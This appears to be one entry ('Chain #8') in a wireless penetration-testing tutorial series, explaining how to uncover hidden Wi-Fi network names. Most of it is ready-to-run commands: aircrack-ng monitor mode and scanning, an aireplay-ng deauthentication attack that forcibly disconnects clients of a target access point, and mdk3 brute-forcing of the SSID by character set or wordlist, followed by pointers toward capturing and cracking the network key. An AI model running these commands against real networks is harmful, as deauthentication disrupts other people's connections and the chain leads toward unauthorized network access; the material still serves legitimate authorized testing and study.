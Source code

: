 # Chain #8: Finding Hidden SSIDs

Hidden SSIDs are networks that do not broadcast their names. While this may stop casual users from noticing them, attackers and penetration testers can still reveal the SSID with the right techniques.

---

## Step 1: Enable Monitor Mode
Before attempting to discover hidden SSIDs, place your wireless interface into monitor mode so that it captures all frames.
```bash
sudo airmon-ng start wlan0
```
- This creates a monitor interface, usually named `wlan0mon`.
- If interfering processes exist (e.g., `NetworkManager` or `wpa_supplicant`), kill them with:
```bash
sudo airmon-ng check kill
```

---

## Step 2: Scan for Networks with Airodump-ng
Run airodump-ng on the monitor interface to detect visible and hidden SSIDs.
```bash
sudo airodump-ng -c 1 wlan0mon
```
- `-c 1` restricts scanning to channel 1.
- Hidden SSIDs will appear as `ESSID: <length: X>` where `X` is the number of characters.

---

## Step 3A: Detecting Hidden SSID via Deauthentication (WPA2)
If clients are connected to the hidden network, you can reveal the SSID by forcing a reconnect.

1. Start capturing again on the target channel:
```bash
sudo airodump-ng -c 1 wlan0mon
```
2. Send deauthentication packets to the client:
```bash
sudo aireplay-ng -0 10 -a <BSSID> -c <Client_MAC> wlan0mon
```
- `-0` = deauth attack.
- `10` = number of deauth frames to send.
- `-a` = target AP’s MAC address.
- `-c` = client’s MAC address.
- After the client reconnects, `airodump-ng` should display the SSID.

**Note:** This method does not work against WPA3 networks with Protected Management Frames (PMF).

---

## Step 3B: Brute-Forcing Hidden SSID (WPA3 or No Clients)
If no clients are connected, or the AP uses WPA3 with PMF, brute-force methods are required.

### Using mdk3 for Brute-Force:
```bash
sudo mdk3 wlan0mon p -b u -c 1 -t <BSSID>
```
- `p` = probe/ESSID brute-force mode.
- `-b u` = brute-force uppercase characters.
- `-c 1` = channel.
- `-t <BSSID>` = target AP.
- Other modes include:
  - `-b a` = all printable characters.
  - `-b m` = mixed case + numbers.

### Using a Wordlist:
```bash
sudo mdk3 wlan0mon p -f /opt/wordlist.txt -t <BSSID>
```
- `-f` = use a wordlist.
- The tool probes with each word in the list until the AP responds, revealing the SSID.

---

## Step 4: Validate the Revealed SSID
Once the SSID is revealed (via deauth or brute-force), you can:
- Attempt authentication if you have or can capture the PSK.
- Proceed with cracking (see Chain #6).